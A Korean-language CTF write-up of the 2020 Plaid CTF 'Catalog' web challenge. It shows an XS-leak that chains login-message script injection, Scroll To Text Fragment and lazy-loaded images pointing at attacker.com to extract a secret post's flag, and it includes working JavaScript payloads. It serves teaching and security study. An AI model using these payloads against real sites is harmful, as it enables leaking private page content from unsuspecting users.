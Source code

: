 ```yaml
---
layout: post
title:  "2020 Plaid CTF - Catalog"
author: "iwkang@raoncorp.com"
comments: true
tags: [ctf, write-up]
---
```


라온화이트햇 핵심연구팀 강인욱([iwkang@raoncorp.com](mailto:iwkang@raoncorp.com))

2020 Plaid CTF에 출제된 문제중 0 솔버였던 흥미로운 문제이다.

문제 출제자 : [https://twitter.com/thebluepichu](https://twitter.com/thebluepichu)

이 문제에 처음 접속 하면 아래와 같이 회원가입, 로그인, 로그아웃 글 작성을 하는 기능이 있으며, 로그인시 관련된 정보(BAM! ~~~~)가 상단에 출력된다.

![/assets/acbaedd9-1dd4-4fdb-96e9-eb34ee740b47/a8932b43-9c1d-48e3-87ae-2123769aa5f4.png](/assets/acbaedd9-1dd4-4fdb-96e9-eb34ee740b47/a8932b43-9c1d-48e3-87ae-2123769aa5f4.png)

CSP를 확인해보면 아래와 같다.

```jsx
Content-Security-Policy: default-src 'nonce-xxxxx'; img-src *; font-src 'self' fonts.gstatic.com; frame-src https://www.google.com/recaptcha/
```

nonce가 활성화되어 있으며 스크립트를 삽입하더라도 코드 실행을 할 수 없습니다. 한가지 주목할 점은 img 태그의 경로를 외부 링크로 설정할 수 있다는 점이다.

문제의 목적은 문제 출제자가 작성한 id=3의 게시글에서 플래그를 가져와야 한다. 플래그 포맷은 다음과 같다.

```jsx
Flag format : /^PCTF\{[A-Z0-9_]+\}$/ 
```

플래그 포맷을 주었다는 점에서 어떠한 작업을 이용해 브루트 포싱으로 플래그를 "검색"해서 읽어야 한다는 것을 알 수 있다.

공격 시나리오를 예상해보면 다음과 같다.

1. 글을 작성하여 봇이 글을 읽게한다.
2. id=3 게시글에 접근하여 어떠한 방법을 통해 이미지 지연 로딩(loading=lazy)을 활용하여 플래그를 유추한다.

대회 당시에는 "어떠한 방법"을 찾을 수 없었지만 Chrome 80 부터 Scroll To Text Fragment가 가능하다고 한다.

[https://www.chromestatus.com/feature/4733392803332096](https://www.chromestatus.com/feature/4733392803332096)

Scroll To Text Fragment은 아래와 같이 사용 가능하다. 이 기능을 이용하기 위해선 사용자 제스처(탭, 클릭)가 필요하다. 출제자는 uBlock Origin 플러그인이 활성화되어 있을 경우를 가정했다.

 

STTF 보안 이슈

```jsx
https://docs.google.com/document/d/1YHcl1-vE_ZnZ0kL2almeikAj2gkwCq8_5xwIae7PVik/edit#heading=h.uoiwg23pt0tx
```

사용법

```jsx
https://en.wikipedia.org/wiki/Cat#:~:text=On
```

이 기능을 사용하면 문서 내용중 "On"이라는 글자가 있는 곳으로 스크롤 된다. 

그렇다면, 이 기능을 사용하여 플래그를 읽으려면 id=3 게시물에 스크립트가 삽입이 되어야한다.

스크립트 삽입은 로그인시 상단에 표시되는 아이디로 가능합니다. 로그인을 실패해도 상단에 메세지가 뜨기 때문에 스크립트 삽입이 가능해진다.

![/assets/acbaedd9-1dd4-4fdb-96e9-eb34ee740b47/a8932b43-9c1d-48e3-87ae-2123769aa5f4.png](/assets/acbaedd9-1dd4-4fdb-96e9-eb34ee740b47/a8932b43-9c1d-48e3-87ae-2123769aa5f4.png)

아래와 같이 유저이름에 스크립트를 삽입한 후 id=3로 이동시키면 상단에 스크립트가 삽입된다.

```jsx
<script>
fetch("http://catalog.pwni.ng/user.php", {
	method: "POST",
	mode: "no-cors",
	credentials: "include",
	headers: {
		"content-type": "application/x-www-form-urlencoded"
	},
	body: "username="+encodeURIComponent("<myscript>test code</myscript>")+"&password=hello&action=login"
}).then(() => {
	window.location = "http://catalog.pwni.ng/issue.php?id=3";
});
</script>
```

이제 단서들을 모아서 공격 시나리오를 재구성 하면 아래와 같다.

1. 관리자가 ublock origin 플러그인을 사용중인 상태에서 게시글을 클릭한다.
2. meta tag를 이용해 attacker.com으로 이동 시킨다.
3. attacker.com에서 로그인 요청을 발생시켜 id=3 게시물 상단에 스크립트를 삽입한다.
4. 스크립트로 meta tag를 이용해 Scroll To Text Fragment를 발생시킨다.
5. 이미지 지연 로딩(<img src="http://attacker.com/img" loading="lazy">)을 이용해 플래그가 검색될 경우 attacker.com의 이미지를 로드하도록 한다.
6. 이미지가 로딩되면 검색이 되었다는 뜻이고 로딩이 안되면 검색이 안되었다는 뜻이다.

예시 코드

```jsx
<script>

alphabet = `}0123456789ABDEFGHIJKLMNOPQRSTUVWXYZ_`;
payload  = "";

content = "~~~~~~<h1></h1>".repeat(500)+"<img src="http://attacker.com/img" loading="lazy" />~~~~~";

for (let letter of alphabet) {
    payload += `text=T-,F,{,-${letter}%26`;
}
payload = "#:~:" + payload.substring(0, payload.length - 3);

fetch("http://catalog.pwni.ng/user.php", {
	method: "POST",
	mode: "no-cors",
	credentials: "include",
	headers: {
		"content-type": "application/x-www-form-urlencoded"
	},
	body: "username="+encodeURIComponent(content)+"&password=hello&action=login"
}).then(() => {
	window.location = "http://catalog.pwni.ng/issue.php?id=3#:~:"+payload;
});
</script>
```
